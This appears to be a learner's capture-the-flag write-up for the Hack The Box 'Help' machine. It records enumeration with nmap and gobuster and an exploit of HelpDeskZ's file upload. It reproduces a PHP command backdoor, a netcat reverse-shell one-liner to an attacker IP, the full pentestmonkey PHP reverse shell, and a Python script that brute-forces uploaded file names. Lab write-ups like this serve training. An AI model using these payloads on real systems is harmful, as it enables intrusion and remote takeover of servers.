

<link href="../styles.module.css" rel="stylesheet">
<link rel="preconnect" href="https://fonts.googleapis.com">
<link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
<link href="https://fonts.googleapis.com/css2?family=Cedarville+Cursive&display=swap" rel="stylesheet">
<link rel="preconnect" href="https://fonts.googleapis.com">
<link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
<link href="https://fonts.googleapis.com/css2?family=Cedarville+Cursive&family=Zen+Tokyo+Zoo&display=swap" rel="stylesheet">
<link rel="preconnect" href="https://fonts.googleapis.com">
<link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
<link href="https://fonts.googleapis.com/css2?family=Cedarville+Cursive&family=Encode+Sans+SC&family=Zen+Tokyo+Zoo&display=swap" rel="stylesheet">


## <span class="copyright">Machine #3<span style="float:right;">By Shatha Barqawi</span>

<br/><br/>

# <span class="title">Help


<span class="date">Wednesday & Tuesday, 28 & 27/7/2021</span> 


<br/> 

### <span class="helpmach subtitle">Could Be Relevant and Could Be Not  
   * ###  <span class="helpmach subtitle">Nmap
        * Normal Scan    
           ```console
           nmap -Pn 10.10.10.121
           ```
           
           ```console
           PORT    STATE SERVICE
           22/tcp   open  ssh
           80/tcp   open  http
           3000/tcp open  ppp
           ```
       * Full Scan   
          ```console
          nmap -Pn -p- 10.10.10.121
          ```    
         ```console
         PORT      STATE SERVICE
         22/tcp   open  ssh
         80/tcp   open  http
         3000/tcp open  ppp
         ```  

   * ###  <span class="helpmach subtitle">Banner Grabbing
      * HTTP `p80`
         ```console
         PORT   STATE SERVICE VERSION
         80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
         ``` 

       * PPP `p3000`  
         ```console
         PORT    STATE SERVICE VERSION
         3000/tcp open  http    Node.js Express framework
         ```  
         It's also http is that normal for point to point protocol?or is it just another webserver?   

       * Aggressive scan on port `p3000`  
         ```console
         PORT     STATE SERVICE VERSION
         3000/tcp open  http    Node.js Express framework
         |_http-title: Site doesn't have a title (application/json; charset=utf-8).
         ```  
         Nothing significant...

       * SSH `p22`  
         ```console
         PORT   STATE SERVICE VERSION
         22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
         Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
         ```
     
   * ###  <span class="helpmach subtitle">Searchsploiting Shit      
       * Apache version 2.4.18  
         ```console
         Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution                                                                     
         Apache + PHP < 5.3.12 / < 5.4.2 - Remote Code Execution + Scanner                                                                      
         Apache 2.4.17 < 2.4.38 - 'apache2ctl graceful' 'logrotate' Local Privilege Escalation                                                                    
         Apache < 2.2.34 / < 2.4.27 - OPTIONS Memory Leak                                                                          
         Apache CXF < 2.5.10/2.6.7/2.7.4 - Denial of Service                                                                       
         Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overflow                                                                      
         Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (1)                                                                           
         Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)                                                                           
         Apache OpenMeetings 1.9.x < 3.1.0 - '.ZIP' File Directory Traversal                                                                     
         Apache Tomcat < 5.5.17 - Remote Directory Listing                                                                       
         Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal                                                                     
         Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal (PoC)                                                                         
         Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution 
         Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution 
         Apache Xerces-C XML Parser < 3.1.2 - Denial of Service (PoC)                                                                       
         Webfroot Shoutbox < 2.32 (Apache) - Local File Inclusion / Remote Code Execution  
         ```
       * Searchsploiting `helpdeskz`  
         ```console
         HelpDeskZ 1.0.2 - Arbitrary File Upload        
         HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download
         ```

<br/><br/> 

### <span class="helpmach subtitle">Useful Info

* ###  <span class="helpmach subtitle">Terminologies  
    * What's an ETag?  
    * What's LFR?
    * What do we mean by inodes?
    * What is helpdeskx?

<br/> 

* ###  <span class="helpmach subtitle">Web Services  
   * The port `p3000` turned out to be also an http service and when I opened it I got a JSON object. What the hell does that mean?
  
  * The JSON object states the following  
    ```json
    {
       "message":"Hi Shiv, To get access please find the credentials with given query"
      }
    ```

   * FOUND SOMETHING!!!  
     gobuster results and the exact command I used  
      ```console
      gobuster dir -u http://10.10.10.121/ -k -x php,html,txt,js,conf -w /home/kali/SecLists/Discovery/Web-Content/big.txt -t 2   
      ```  
      ```console
      .htaccess.html       (Status: 403) [Size: 301]
      /.htaccess.txt        (Status: 403) [Size: 300]
      /.htaccess.js         (Status: 403) [Size: 299]
      /.htaccess            (Status: 403) [Size: 296]
      /.htaccess.conf       (Status: 403) [Size: 301]
      /.htpasswd            (Status: 403) [Size: 296]
      /.htaccess.php        (Status: 403) [Size: 300]
      /.htpasswd.conf       (Status: 403) [Size: 301]
      /.htpasswd.php        (Status: 403) [Size: 300]
      /.htpasswd.html       (Status: 403) [Size: 301]
      /.htpasswd.txt        (Status: 403) [Size: 300]
      /.htpasswd.js         (Status: 403) [Size: 299]
      /index.html           (Status: 200) [Size: 11321]
      /javascript           (Status: 301) [Size: 317] [--> http://10.10.10.121/javascript/]
      /server-status        (Status: 403) [Size: 300]                                      
      /support              (Status: 301) [Size: 314] [--> http://10.10.10.121/support/]
      ```

* ###  <span class="helpmach subtitle"> ExpressJs
   * They say there's an exploit on the expressjs if the header *X-Powered-By: Express* is included so I'll research more on that.
   
* ###  <span class="helpmach subtitle">HelpDeskz

### <span class="helpmach subtitle">Why I Got Stuck?  

   * I kept focusing on the express until I realized it's a deadend.  
   * I also was writing the `gobuster` command the wrong way.

<br/><br/>

### <span class="helpmach subtitle">Nice Things I Found in Someone Else's Write Up  

* 0xRick's Writeup  
  * So the Express wasn't a deadend after all it did have something useful which is *graphql* which is a query language for APIs (He stated that it needed alot of guessing and fuzzing).  
  
  * He kept checking the source code for the *helpdeskz* because, turns out, it's open source so he benefited from that alot. I think I might use that in the future too, look if the service is open source and check out its source code if I understand anything or find anything that would make me understand shit more.
  
  * He also changed the time zone from the *helpdeskz* itself which would've been beneficial if it wasn't already in the code I used  
   

  * I have a freaking PHP backdoor on my VM (Kali Linux). It's in path `/usr/share/webshells/php/simple-backdoor.php` and it has the following code    
    ```php
    <?php
    if(isset($_REQUEST['cmd'])){
      echo "<pre>";
      $cmd = ($_REQUEST['cmd']);
      system($cmd);
      echo "</pre>";
      die;
    } ?>
    ```  

    So what the writer is suggesting is that I can use this backdoor to get remote code execution by uploading this file on the `helpdeskz` and then he used the following payload encoded with url encoding (I didn't really get what's happening in it honestly)  

     ```console
     rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f
     ```
     using it as follows  
     ```console
     http://help.htb/support/uploads/tickets/11559b997fcb9a724cbc0e2a6a4b98a3.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.xx.xx%201337%20%3E%2Ftmp%2Ff
     ```

<br/><br/>

### <span class="helpmach subtitle">Scripts I Used 

1. <span class="helpmach">The PHP Reverse Shell</span>  
   I used pentestmonkey's reverse shell code   
      ```php
      <?php

      set_time_limit (0);
      $VERSION = "1.0";
      $ip = '127.0.0.1';  // CHANGE THIS
      $port = 1234;       // CHANGE THIS
      $chunk_size = 1400;
      $write_a = null;
      $error_a = null;
      $shell = 'uname -a; w; id; /bin/sh -i';
      $daemon = 0;
      $debug = 0;

      //
      // Daemonise ourself if possible to avoid zombies later
      //

      // pcntl_fork is hardly ever available, but will allow us to daemonise
      // our php process and avoid zombies.  Worth a try...
      if (function_exists('pcntl_fork')) {
      	// Fork and have the parent process exit
      	$pid = pcntl_fork();
      	
      	if ($pid == -1) {
      		printit("ERROR: Can't fork");
      		exit(1);
      	}
      	
      	if ($pid) {
      		exit(0);  // Parent exits
      	}

      	// Make the current process a session leader
      	// Will only succeed if we forked
      	if (posix_setsid() == -1) {
      		printit("Error: Can't setsid()");
      		exit(1);
      	}

      	$daemon = 1;
      } else {
      	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
      }

      // Change to a safe directory
      chdir("/");

      // Remove any umask we inherited
      umask(0);

      //
      // Do the reverse shell...
      //

      // Open reverse connection
      $sock = fsockopen($ip, $port, $errno, $errstr, 30);
      if (!$sock) {
      	printit("$errstr ($errno)");
      	exit(1);
      }

      // Spawn shell process
      $descriptorspec = array(
         0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
         1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
         2 => array("pipe", "w")   // stderr is a pipe that the child will write to
      );

      $process = proc_open($shell, $descriptorspec, $pipes);

      if (!is_resource($process)) {
      	printit("ERROR: Can't spawn shell");
      	exit(1);
      }

      // Set everything to non-blocking
      // Reason: Occsionally reads will block, even though stream_select tells us they won't
      stream_set_blocking($pipes[0], 0);
      stream_set_blocking($pipes[1], 0);
      stream_set_blocking($pipes[2], 0);
      stream_set_blocking($sock, 0);

      printit("Successfully opened reverse shell to $ip:$port");

      while (1) {
      	// Check for end of TCP connection
      	if (feof($sock)) {
      		printit("ERROR: Shell connection terminated");
      		break;
      	}

      	// Check for end of STDOUT
      	if (feof($pipes[1])) {
      		printit("ERROR: Shell process terminated");
      		break;
      	}

      	// Wait until a command is end down $sock, or some
      	// command output is available on STDOUT or STDERR
      	$read_a = array($sock, $pipes[1], $pipes[2]);
      	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

      	// If we can read from the TCP socket, send
      	// data to process's STDIN
      	if (in_array($sock, $read_a)) {
      		if ($debug) printit("SOCK READ");
      		$input = fread($sock, $chunk_size);
      		if ($debug) printit("SOCK: $input");
      		fwrite($pipes[0], $input);
      	}

      	// If we can read from the process's STDOUT
      	// send data down tcp connection
      	if (in_array($pipes[1], $read_a)) {
      		if ($debug) printit("STDOUT READ");
      		$input = fread($pipes[1], $chunk_size);
      		if ($debug) printit("STDOUT: $input");
      		fwrite($sock, $input);
      	}

      	// If we can read from the process's STDERR
      	// send data down tcp connection
      	if (in_array($pipes[2], $read_a)) {
      		if ($debug) printit("STDERR READ");
      		$input = fread($pipes[2], $chunk_size);
      		if ($debug) printit("STDERR: $input");
      		fwrite($sock, $input);
      	}
      }

      fclose($sock);
      fclose($pipes[0]);
      fclose($pipes[1]);
      fclose($pipes[2]);
      proc_close($process);

      // Like print, but does nothing if we've daemonised ourself
      // (I can't figure out how to redirect STDOUT like a proper daemon)
      function printit ($string) {
      	if (!$daemon) {
      		print "$string\n";
      	}
      }

      ?> 
      ```  

2. <span class="helpmach">The python code</span> I used to check the names of the files so that I can execute the php code   

      * The libraries needed to be imported
        ```python
        import hashlib
        import time
        import sys
        import requests
        import calendar
        ```  
      * The path to the files (Can be found in the source code of helpdeskz on github )  
        ```python
        helpdeskzBaseUrl = "http://10.10.10.121/support/uploads/tickets/" # change this
        ```  

      * The file of the php code that I uploaded on the website plus a request to the server so that we can take the time format and fix it (as mentioned before we can change the time zone on the website itself instead)
        ```python
        fileName = "innocent_file.php" # Your reverse shell
        response = requests.head('http://10.10.10.121') # Change this
        serverTime=response.headers['Date'] # getting the server time
        timeFormat="%a, %d %b %Y %H:%M:%S %Z"
        currentTime = int (calendar.timegm(time.strptime(serverTime,timeFormat)))
        ```  

      * Last but not least, we loop through requests to the base url trying the current time minus multiple numbers (from 0 to 800) until we get a match    
        ```python
        for x in range(0, 800):
           plaintext = fileName + str(currentTime - x)
           md5hash = hashlib.md5(plaintext.encode()).hexdigest()
           url = helpdeskzBaseUrl+md5hash+'.php'
           response = requests.head(url)
        ```  

      * I think the code until the block before this is quite enough because (I didn't try it) but the fact that we got code 200 means that our code got executed and we gained a reverse shell. So the following code is kind of useless
        ```python
        if response.status_code == 200:
        print ("found!")
        print (url)
        sys.exit(0)
        print ("Sorry, I did not find anything")